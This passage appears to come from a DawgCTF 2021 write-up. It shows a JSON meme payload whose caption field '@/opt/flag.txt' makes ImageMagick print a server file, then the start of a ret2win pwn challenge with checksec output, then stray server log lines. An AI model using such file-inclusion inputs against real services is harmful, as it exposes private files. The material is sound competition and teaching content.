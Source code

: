 ### Solution

This last message hints at a likely issue or escape for the ImageMagick caption command.

I read the ImageMagick documentation on `caption` and found text can be included from files using `@`. A few minutes of experimenting and following MDL printed the flag on the generated image:

```js
{
    version: "MDL/1.1",
    type: "meme",
    base: {
        format: "Meme.Matrix.WhatIfIToldYou"
    },
    caption: {
        topText: "what if i told you",
        bottomText: "@/opt/flag.txt"
    }
}
```

![Flag on the Meme](/assets/images/2021-dawg-ctf/MDL-flag.png){:.align-center}

## 3. Bofit PWN Challenge

Bofit was a simple ret2win challenge with a slight twist.

> Because Bop It is copyrighted, apparently
> `nc umbccd.io 4100`
> Author: trashcanna

### Process

Run checksec to see architecture and security measures on binary.

```bash
[*] '/home/carlm/DawgCTF/bofit'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```


[486626]: Talking to NSTFTP-client-go-dawgs
[486626]: Error disconnect, code 42
[487191]: Talking to NSTFTP-client-go-dawgs
[487191]: Error disconnect, code 43